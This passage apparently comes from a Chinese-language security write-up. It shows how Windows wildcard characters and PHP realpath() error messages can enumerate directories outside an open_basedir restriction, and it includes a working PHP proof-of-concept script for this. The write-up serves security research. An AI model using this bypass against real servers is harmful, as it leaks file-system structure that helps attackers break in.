 这样是需要跑很久的，基本每次跑的时候我都没耐心了，这样暴力猜解肯定是不行的。那么，有什么好办法可以变这个“鸡肋”的漏洞为一个“好用”的漏洞？

熟悉 Windows + PHP 的同学应该还记得 Windows 下有两个特殊的通配符：<、>

对，我们这里就借用这些通配符的力量来列举目录。写个简单的 POC 来列举一下：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>

```

首先设置 open_basedir 为当前目录，并枚举 d:/test/目录下的所有文件。将错误处理交给 isexists 函数，在 isexists 函数中匹配出目录名称，并打印出来。

执行可以看到：

![enter image description here](img/img3_u60_png.jpg)

Open_basedir 为 c:\wamp\www，但我们列举出了 d:/test/目录下的文件：

![enter image description here](img/img4_u12_png.jpg)
